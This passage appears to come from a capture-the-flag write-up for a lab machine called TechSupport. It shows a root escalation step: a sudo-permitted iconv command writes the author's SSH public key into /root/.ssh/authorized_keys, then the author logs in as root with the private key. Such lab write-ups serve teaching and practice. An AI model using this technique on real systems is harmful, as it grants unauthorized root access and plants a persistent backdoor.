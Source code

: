 ```
```

Now we copy our **public** key it on our target in the auth keys file :

```
scamsite@TechSupport:/dev/shm$ echo "ssh-rsa AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
" | sudo iconv -f 8859_1 -t 8859_1 -o "/root/.ssh/authorized_keys"
```

## Root SSH

Now we access with the **private** key :

```
ssh -i /home/mdn0x/.ssh/id_ed25519 root@10.10.1.80
```

